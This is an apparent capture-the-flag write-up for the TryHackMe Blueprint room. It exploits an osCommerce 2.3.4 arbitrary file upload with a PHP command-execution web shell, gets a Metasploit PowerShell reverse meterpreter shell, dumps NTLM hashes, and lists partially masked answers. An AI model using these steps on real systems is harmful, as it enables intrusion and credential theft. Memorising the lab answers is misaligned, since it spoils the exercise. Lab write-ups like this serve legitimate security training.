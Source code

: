 # TryHackMe Blueprint
**Hack into this Windows machine and escalate your privileges to Administrator.**

## Task-1 Blueprint

* During enumeration found - 135,139,443,445,3306,8080 ports open. Tried 'anonymous' login on smb but was unseccessful. Only active ports were - 443,8080. On '8080' found a directory named 'oscommerce' and then a sub-directory 'catalog'. Then a poorly developed web-page was opened which was redirecting to nowhere. 

* After this I ran gobuster on above site and got a page 'install'. In that was a database server which required some information to proceed. So I gave them these values - 'Database Server':'localhost', 'username':'root', 'password':' ', 'Database Name':'oscommerce'. 

* Then after clicking on continue you will see a web server page. Also you will see 'step=2' changing in the url. Web server page is already filled and now click continue. Then a page named 'Online Store settings' will come. In that enter details accordingly but set 'Administrator username':'admin' and 'Administrator Password':'admin' and then click on continue.

* After that we are successfully registered in the database. Now open your terminal and type 'searchsploit oscommerce 2.3.4'. You will see many exploits but one in particular 'arbitrary file upload'. Now open this python file and run it. You will see it's usage is given.

* Now it takes a .php file which will contain our malicious code. Make a php file and in that write " <?php<br>passthru($_ GET['cmd'])<br>?>". Now run the command (*python exploit.py -u http://IP:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php*) . After that you will see your authentication successful. In the last line a link will be given. Click that and it will redirect you to page having php warnings.

* Now open msfconsole and in that type (*use exploit/multi/script/web_delivery*). Now type (*show options*) and fill in the required fields. Set your 'SRVHOST' and 'LHOST' same as your 'tun0' ip. Now type 'show targets'. You will see a list of targets. From that select PSH. See the 'Id' of 'PSH' and then type 'set target id_of_PSH'. Now type 'set payload windows/meterpreter/reverse_tcp'. See your options one more time and then click continue. After running you will see something like 'Run the following command on the target machine:' on the metasploit console. Copy the whole command starting from 'powershell.exe' and then go to the website which we got from above result.

* Then type ?cmd='the_whole_command_copied_from_above'. So now your url will look like this - 'http://ip:8080/oscommerce-2.3.4/catalog/admin/shell.php?cmd=the_whole_command_copied_from_above'. Now wait for some time and check your metasploit shell.

* After successfully making the connection type (*sessions -i 1*) and then type 'getuid'. You will see 'Server username: NT AUTHORITY\SYSTEM'. We have successfully gained administrator. Now type 'hashdump' and you will see hashes of various users in the machine. Now answer below questions.

1. "Lab" user NTML hash decrypted<br>
Answer : google**** ('use crackstation to crack password')

* Type 'shell' in the metasploit console and you will see a windows cmd like shell. Now traverse to Administrator's desktop and get the root flag.

2. root.txt<br>
Answer : THM{aea1e3ce6fe7f89e10cea***********}
